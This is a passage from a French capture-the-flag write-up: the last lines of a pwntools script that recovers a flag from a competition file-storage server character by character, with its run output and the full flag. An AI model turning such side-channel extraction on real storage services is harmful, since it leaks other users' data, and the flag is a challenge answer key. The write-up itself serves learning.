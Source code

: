 ```python
        quota2 = quota

host = "filestore.2021.ctfcompetition.com"
port = 1337
nc = pwn.remote(host, port)

nc.recvline() # == proof-of-work: disabled ==
nc.recvline() # Welcome to our file storage solution.
nc.recvline() # line feed (\n)

flag = "CTF{"

i=0
while flag[-1] != "}":
    flag += testChar(flag[i+1:])
    print(f"[i] {flag}")
    i+=1

print(f"\n[+] FLAG : {flag}")
```

Executons maintenant notre script python :

```
$ python3 solve.py 
[+] Opening connection to filestore.2021.ctfcompetition.com on port 1337: Done
[i] CTF{C
[i] CTF{CR
[i] CTF{CR1
[i] CTF{CR1M
[i] CTF{CR1M3
[i] CTF{CR1M3_
[i] CTF{CR1M3_0
[i] CTF{CR1M3_0f
[i] CTF{CR1M3_0f_
[i] CTF{CR1M3_0f_d
[i] CTF{CR1M3_0f_d3
[i] CTF{CR1M3_0f_d3d
[i] CTF{CR1M3_0f_d3du
[i] CTF{CR1M3_0f_d3dup
[i] CTF{CR1M3_0f_d3dup1
[i] CTF{CR1M3_0f_d3dup1i
[i] CTF{CR1M3_0f_d3dup1ic
[i] CTF{CR1M3_0f_d3dup1ic4
[i] CTF{CR1M3_0f_d3dup1ic4t
[i] CTF{CR1M3_0f_d3dup1ic4ti
[i] CTF{CR1M3_0f_d3dup1ic4ti0
[i] CTF{CR1M3_0f_d3dup1ic4ti0n
[i] CTF{CR1M3_0f_d3dup1ic4ti0n}

[+] FLAG : CTF{CR1M3_0f_d3dup1ic4ti0n}
[*] Closed connection to filestore.2021.ctfcompetition.com port 1337
```

Bingo !! Nous avons trouvé le flag : ``CTF{CR1M3_0f_d3dup1ic4ti0n}``
